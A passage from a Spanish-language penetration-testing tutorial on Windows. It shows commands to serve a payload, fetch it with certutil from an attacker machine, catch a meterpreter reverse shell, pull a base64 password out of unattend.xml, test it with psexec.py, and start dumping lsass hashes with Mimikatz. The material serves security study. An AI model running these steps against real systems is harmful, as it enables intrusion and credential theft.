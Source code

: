 - `python3 -m http.server`

Y lo descargamos desde windows con la herramienta certutil con el siguiente comando:

- `certutil -urlcache -f http://*ip_kali*/payload.exe payload.exe`

Una vez descargado nos ponemos a la escucha con multi/handler en metasploit y incluimos el payload de msfvenom:

- `use windows/x64/meterpreter/reverse_tcp`

Cuando conseguimos la conexión de meterpreter podemos buscar el archivo unattend.xml en la siguiente ruta

- `cd C:\`
- `cd Windows\Panther`

Una vez localizado lo descargamos:

- `download unattend.xml`

Cuando lo tenemos descargado podemos leerlo por si contiene alguna contraseña filtrada:

![image](https://github.com/user-attachments/assets/4193889f-46e5-49e2-bd33-c3fab7928154)

Como podemos comprobar esta encriptada en base64, la copiamos, creamos un archivo pegando ese contenido y lo desencriptamos con el siguiente comando:

- `base64 -d contra.txt`

![image](https://github.com/user-attachments/assets/57de5e89-7407-45cf-a552-1a72f71b0509)

En algunos casos podemos encontrarnos que el usuario administrador a cambiado la contraseña tras la instalacion. Para comprobar si tenemos acceso a la maquina victima con estas credenciales vamos a pobar la conexion con la herramienta PSEXEC.py:

- `psexec.py administrator@*ip_victima*`

![image](https://github.com/user-attachments/assets/adde57ca-1536-477d-8d18-18ae207e7dee)

## **MIMIKATZ**

Mimikatz es un herramienta que se utiliza para la extraccion de contraseñas en texto plano, hashes y tickets de kerberos de la memoria. Se puede utilizar para extraer hashes del proceso de memoria lsass.exe donde se almacenan los hashes, ya que este proceso interactúa los las bases de datos SAM.

Su uso requiere privilegios elevados. Se puede ejecutar de dos formas:

- Viene por defecto instalado con kali
- A través de una sesión de meterpreter con el comando Kiwi

\- Uso con meterpreter:

Tras conseguir una sesion de meterpreter tras vulnerar una maquina hemos accedido con el usuario administrador. Pero primero queremos escalar al usuario NT System ya que es el usuario con mas privilegios en Windows, para ello tenemos que migrar al proceso lsass:

![image](https://github.com/user-attachments/assets/5f397600-3c06-4979-ab3a-c7f6a8541ef5)
